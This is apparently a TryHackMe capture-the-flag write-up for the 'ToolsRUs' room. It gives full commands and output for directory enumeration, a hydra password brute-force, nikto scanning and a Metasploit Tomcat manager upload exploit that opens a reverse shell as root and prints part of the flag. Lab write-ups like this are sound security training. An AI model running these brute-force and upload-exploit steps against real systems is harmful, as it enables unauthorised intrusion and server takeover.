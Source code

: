# ToolsRUs Room Writeup
#pentest/tryhackme

We see on the main page:
`Unfortunately, **ToolsRUs** is down for upgrades. Other parts of the website is still functional...`

Let's start with **dirbuster** to see which directories we can find.

```shell
$ gobuster dir -u http://<machine-ip> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.252.236
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/16 17:27:34 Starting gobuster
===============================================================
/guidelines (Status: 301)
/protected (Status: 401)
```

And that's what we  find in `/guidelines` -> *Hey bob, did you update that TomCat server?*
So we know we have a user called **bob** and that we apparently have a **TomCat** server. 

When we investigate `/protected` we are greeted with basic authentication. We know one potential username, which is **bob**, can we infer the password using
something like `hydra`? Use the `-f` flag to stop hydra execution after finding the first match.

```shell
$ hydra -l bob -P /usr/share/wordlists/metasploit/unix_passwords.txt -s port -f <machine-ip> http-get /protected
...
[DATA] attacking http-get://10.10.252.236:80/protected
[80][http-get] host: 10.10.252.236   login: bob   password: bubbles
[STATUS] attack finished for 10.10.252.236 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Nice, we found a password for our username! Let's try to login using the **bob/bubbles** credentials.
*This protected page has now moved to a different port.*

Interesting, another port you say? Sounds like we will need **nmap** to enumerate those.
Let's also use the `-sV` for service version detection since we are here.

```shell
$ nmap -sV <machine-ip>
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 1234 running Apache Tomcat looks interesting, can we login through the **Manager App** with the same credentials?
We can! Let's use **Nikto** with these credentials to learn more about our target.

```shell
nikto -h http://<machine-ip>:1234/manager/html -id bob:bubbles 
...
+ Successfully authenticated to realm 'Tomcat Manager Application' with user-supplied credentials.
+ All CGI directories 'found', use '-C none' to test none
...
+ OSVDB-3233: /manager/html/manager/manager-howto.html: Tomcat documentation found.
+ OSVDB-3233: /manager/html/jk-manager/manager-howto.html: Tomcat documentation found.
+ OSVDB-3233: /manager/html/jk-status/manager-howto.html: Tomcat documentation found.
+ OSVDB-3233: /manager/html/admin/manager-howto.html: Tomcat documentation found.
+ OSVDB-3233: /manager/html/host-manager/manager-howto.html: Tomcat documentation found.
...
```

We have found 5 documentation files. 

I think we are ready to attempt a shell. Let's use our good old **metasploit**.

```shell
$ msfconsole
```

What now? We know we are using Tomcat and we have the basic credentials. 

```shell
msf5 > search tomcat

Matching Modules
================
   ...
   #   Name                                                         Disclosure Date  Rank       Check  Description
   -   ----                                                         ---------------  ----       -----  -----------
   15  exploit/multi/http/tomcat_jsp_upload_bypass                  2017-10-03       excellent  Yes    Tomcat RCE via JSP Upload Bypass
   16  exploit/multi/http/tomcat_mgr_deploy                         2009-11-09       excellent  Yes    Apache Tomcat Manager Application Deployer Authenticated Code Execution
   17  exploit/multi/http/tomcat_mgr_upload                         2009-11-09       excellent  Yes    Apache Tomcat Manager Authenticated Upload Code Execution
   ...
```

Module 17 looks reasonable since we already have the credentials.

```shell
msf5 > use 17
msf5 exploit(multi/http/tomcat_mgr_upload) > info
...
Basic options:
  Name          Current Setting  Required  Description
  ----          ---------------  --------  -----------
  HttpPassword                   no        The password for the specified username
  HttpUsername                   no        The username to authenticate as
  Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT         80               yes       The target port (TCP)
  SSL           false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
  VHOST                          no        HTTP server virtual host
...
```

Let's set the required information:

```shell
msf5 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword bubbles
HttpPassword => bubbles
msf5 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername bob
HttpUsername => bob
msf5 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS <target-ip>
RHOSTS => <target-ip>
msf5 exploit(multi/http/tomcat_mgr_upload) > set RPORT 1234
RPORT => 1234
msf5 exploit(multi/http/tomcat_mgr_upload) > info
...
Basic options:
  Name          Current Setting  Required  Description
  ----          ---------------  --------  -----------
  HttpPassword  bubbles          no        The password for the specified username
  HttpUsername  bob              no        The username to authenticate as
  Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS        <target-ip>      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT         1234             yes       The target port (TCP)
  SSL           false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
  VHOST                          no        HTTP server virtual host
```

Seems like we have everything in place, let's give it a shot!

```shell
msf5 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on <your-machine-ip>:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying DsvOT9wzRvn...
[*] Executing DsvOT9wzRvn...
[*] Sending stage (53905 bytes) to 10.10.252.236
[*] Meterpreter session 1 opened (<your-machine-ip>:4444 -> <target-ip>:57016) at 2020-06-16 18:56:49 -0400
[*] Undeploying DsvOT9wzRvn ...

meterpreter > getuid
Server username: root
```

Not only we succeed, but we are root! What now? Well, since we are just looking for a flag let's try to find it. 

```shell
meterpreter > search -f flag.txt
Found 1 result...
    /root/flag.txt (33 bytes)
meterpreter > cat /root/flag.txt
ff1fc4a81affcc7688cf89ae7dc6e0e1...
```

And that's it! Thanks for following up this writeup! 